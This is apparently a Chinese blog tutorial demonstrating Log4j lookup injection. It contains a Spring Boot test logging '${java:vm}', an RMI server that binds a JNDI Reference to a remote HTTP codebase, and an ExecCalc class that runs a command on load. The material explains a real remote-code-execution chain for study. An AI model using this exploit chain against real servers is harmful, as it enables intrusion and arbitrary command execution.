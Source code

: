 ## 本地打印 JVM 基础信息

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214165937.png?x-oss-process=style/yano)

```java
@SpringBootTest
class Log4jApplicationTests {

	private static final Logger logger = LogManager.getLogger(SpringBootTest.class);

	@Test
	void log4j() {
		logger.info("content {}", "${java:vm}");
	}
}
```

可以发现输出是：

```
content Java HotSpot(TM) 64-Bit Server VM (build 25.152-b16, mixed mode)
```

使用 JavaLookup 获取到了 JVM 的相关信息（需要使用`java`前缀）。

## 本地获取服务器的打印信息

本地启动一个 RMI 服务：

```java
public class Server {

    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        String url = "http://127.0.0.1:8081/";
        // Reference 需要传入三个参数 (className,factory,factoryLocation)
        // 第一个参数随意填写即可，第二个参数填写我们 http 服务下的类名，第三个参数填写我们的远程地址
        Reference reference = new Reference("ExecCalc", "ExecCalc", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("calc", referenceWrapper);
    }
}
```

ExecCalc 类直接放在根目录，不能申请包名，即不能存在 package xxx。声明后编译的 class 文件函数名称会加上包名从而不匹配。参考 [Java 安全-RMI-JNDI 注入](https://reader-l.github.io/2021/01/26/Java%E5%AE%89%E5%85%A8-RMI-JNDI%E6%B3%A8%E5%85%A5/)。

```java
public class ExecCalc {
    static {
        try {
            System.out.println("open a Calculator!");
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
